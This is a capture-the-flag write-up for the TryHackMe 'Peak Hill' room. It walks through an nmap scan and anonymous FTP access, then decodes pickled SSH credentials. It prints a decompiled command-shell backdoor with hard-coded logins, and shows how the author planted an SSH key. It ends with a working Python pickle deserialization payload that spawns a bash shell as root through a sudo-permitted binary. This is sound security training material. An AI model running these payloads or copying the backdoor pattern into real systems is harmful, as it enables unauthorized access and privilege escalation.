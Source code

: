 # [Peak Hill](https://tryhackme.com/room/peakhill)

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Tue Mar  1 15:26:48 2022 as: nmap -p 21,22,7321 -sCV -oA init -Pn 10.10.186.88
Nmap scan report for 10.10.186.88
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.21.200
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 May 15  2020 test.txt
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 04:d5:75:9d:c1:40:51:37:73:4c:42:30:38:b8:d6:df (RSA)
|   256 7f:95:1a:d7:59:2f:19:06:ea:c1:55:ec:58:35:0c:05 (ECDSA)
|_  256 a5:15:36:92:1c:aa:59:9b:8a:d8:ea:13:c9:c0:ff:b6 (ED25519)
7321/tcp open  swx?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|     Username: Password:
|   NULL:
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port7321-TCP:V=7.92%I=7%D=3/1%Time=621DD8DC%P=x86_64-pc-linux-gnu%r(NUL
SF:L,A,"Username:\x20")%r(GenericLines,14,"Username:\x20Password:\x20")%r(
SF:GetRequest,14,"Username:\x20Password:\x20")%r(HTTPOptions,14,"Username:
SF:\x20Password:\x20")%r(RTSPRequest,14,"Username:\x20Password:\x20")%r(RP
SF:CCheck,14,"Username:\x20Password:\x20")%r(DNSVersionBindReqTCP,14,"User
SF:name:\x20Password:\x20")%r(DNSStatusRequestTCP,14,"Username:\x20Passwor
SF:d:\x20")%r(Help,14,"Username:\x20Password:\x20")%r(SSLSessionReq,14,"Us
SF:ername:\x20Password:\x20")%r(TerminalServerCookie,14,"Username:\x20Pass
SF:word:\x20")%r(TLSSessionReq,14,"Username:\x20Password:\x20")%r(Kerberos
SF:,14,"Username:\x20Password:\x20")%r(SMBProgNeg,14,"Username:\x20Passwor
SF:d:\x20")%r(X11Probe,14,"Username:\x20Password:\x20")%r(FourOhFourReques
SF:t,14,"Username:\x20Password:\x20")%r(LPDString,14,"Username:\x20Passwor
SF:d:\x20")%r(LDAPSearchReq,14,"Username:\x20Password:\x20")%r(LDAPBindReq
SF:,14,"Username:\x20Password:\x20")%r(SIPOptions,14,"Username:\x20Passwor
SF:d:\x20")%r(LANDesk-RC,14,"Username:\x20Password:\x20")%r(TerminalServer
SF:,14,"Username:\x20Password:\x20")%r(NCP,14,"Username:\x20Password:\x20"
SF:)%r(NotesRPC,14,"Username:\x20Password:\x20")%r(JavaRMI,14,"Username:\x
SF:20Password:\x20")%r(WMSRequest,14,"Username:\x20Password:\x20")%r(oracl
SF:e-tns,14,"Username:\x20Password:\x20")%r(ms-sql-s,14,"Username:\x20Pass
SF:word:\x20")%r(afp,14,"Username:\x20Password:\x20")%r(giop,14,"Username:
SF:\x20Password:\x20");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 15:29:56 2022 -- 1 IP address (1 host up) scanned in 187.63 seconds
```

We can log into FTP anonymously and grab a couple of files.

```sh
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 15  2020 .
drwxr-xr-x    2 ftp      ftp          4096 May 15  2020 ..
-rw-r--r--    1 ftp      ftp          7048 May 15  2020 .creds
-rw-r--r--    1 ftp      ftp            17 May 15  2020 test.txt
226 Directory send OK.
ftp> mget test.txt .creds
mget test.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for test.txt (17 bytes).
226 Transfer complete.
17 bytes received in 0.000372 seconds (44.6 kbytes/s)
mget .creds? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .creds (7048 bytes).
226 Transfer complete.
7048 bytes received in 0.000662 seconds (10.2 Mbytes/s)
```

The file `.creds` looks like binary so I decoded it using [CyberChef](https://gchq.github.io/CyberChef/) with `From Binary` and got a file of unknown type. Since the hints at pickling with an image, I tried unpickling the data which worked. The unpickled data is an array of 2-tuples which I processed to get a username-password pair.

```python
#!/usr/bin/python3

import pickle

with open("creds.pickle", "rb") as f:
    data = pickle.load(f)

user = [None] * len(data)
pw = [None] * len(data)

for k, v in data:
    if(k.startswith("ssh_pass")):
        pw[int(k.lstrip("ssh_pass"))] = v
    else:
        user[int(k.lstrip("ssh_user"))] = v

# remove None
pw = [i for i in pw if i]
user = [i for i in user if i]

pw = "".join(pw)
user = "".join(user)
print(f"{user}:{pw}")
```

With that, we should be able to SSH in as gherkin.

Right in gherkin's home is the file `cmd_service.pyc` which is python byte code. We can decompile it using `uncompyle6` (`pip install uncompyle6`). I can't seem to download the file after setting up `python3 -m http.server` or transfer it with `nc` so I guess unused ports are blocked by a firewall. To get around that, I simple run `base64 cmd_service.pyc -w 0` and copy & decode that on my local machine.

```python
from Crypto.Util.number import bytes_to_long, long_to_bytes
import sys, textwrap, socketserver, string, readline, threading
from time import *
import getpass, os, subprocess
username = long_to_bytes(<REDACTED>)
password = long_to_bytes(<REDACTED>)

class Service(socketserver.BaseRequestHandler):

    def ask_creds(self):
        username_input = self.receive(b'Username: ').strip()
        password_input = self.receive(b'Password: ').strip()
        print(username_input, password_input)
        if username_input == username:
            if password_input == password:
                return True
        return False

    def handle(self):
        loggedin = self.ask_creds()
        if not loggedin:
            self.send(b'Wrong credentials!')
            return None
        self.send(b'Successfully logged in!')
        while True:
            command = self.receive(b'Cmd: ')
            p = subprocess.Popen(command,
              shell=True, stdout=(subprocess.PIPE), stderr=(subprocess.PIPE))
            self.send(p.stdout.read())

    def send(self, string, newline=True):
        if newline:
            string = string + b'\n'
        self.request.sendall(string)

    def receive(self, prompt=b'> '):
        self.send(prompt, newline=False)
        return self.request.recv(4096).strip()


class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass


def main():
    print('Starting server...')
    port = 7321
    host = '0.0.0.0'
    service = Service
    server = ThreadedService((host, port), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=(server.serve_forever))
    server_thread.daemon = True
    server_thread.start()
    print('Server started on ' + str(server.server_address) + '!')
    while True:
        sleep(10)


if __name__ == '__main__':
    main()
```

We see that it's a shell on port 7321 with hard-coded credentials. Decoding the creds is easy.

```python
#!/usr/bin/python3

from Crypto.Util.number import long_to_bytes

username = long_to_bytes(<REDACTED>).decode('utf-8')
password = long_to_bytes(<REDACTED>).decode('utf-8')

print(f"{username}:{password}")
```

We can then use those credentials to `nc` to port 7321 and get command execution. I simply put my SSH key in `~/.ssh/authorized_keys` and SSH in as dill.

Checking dill's `sudo` privileges ...

```sh
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
```

... we can run `/opt/peak_hill_farm/peak_hill_farm` as root without a password. We can't read it, unfortunately, so we can only probe and guess what it does dynamically.

```sh
dill@ubuntu-xenial:~$ ls -l /opt/peak_hill_farm/peak_hill_farm
-rwxr-x--x 1 root root 1218056 May 15  2020 /opt/peak_hill_farm/peak_hill_farm
```

With some inputs like `12345`, we get the message `failed to decode base64` so we know we need some base64-encoded stuff. Since the box seems to be around pickling, I looked up `pickle` on [HackTricks](https://book.hacktricks.xyz/) and got [this payload](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle) which I modified to simply give a `bash` shell.

```python
#!/usr/bin/python3

import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("/bin/bash -i",))
print(base64.b64encode(pickle.dumps(P())).decode('utf-8'))
```

Running `sudo /opt/peak_hill_farm/peak_hill_farm` with the output from the above script should give a root shell. The root flag is a bit tricky to get since the file name has some non-ascii characters but it can be grabbed by running `cat $(ls)` inside `/root`.
